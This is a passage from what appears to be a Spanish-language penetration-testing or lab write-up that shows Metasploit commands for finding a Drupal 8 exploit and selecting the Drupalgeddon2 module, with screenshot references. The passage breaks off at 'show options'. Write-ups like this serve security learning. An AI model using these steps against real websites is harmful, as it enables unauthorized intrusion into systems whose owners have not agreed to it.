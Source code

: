 


Buscamos algún módulo para esta versión de *Drupal*
```
search drupal 8
```
<p align="center">
    <img src="../img/Pasted_image_20241225214921.png" width="500">
</p>






Seleccionamos el exploit que nos interese, en este caso vamos a usar el primero
```
use 0 
#ó
use exploit/unix/webapp/drupal_drupalgeddon2 
```
<p align="center">
    <img src="../img/Pasted_image_20241225215014.png" width="500">
</p>




Vemos las opciones
```
show options
```
<p align="center">
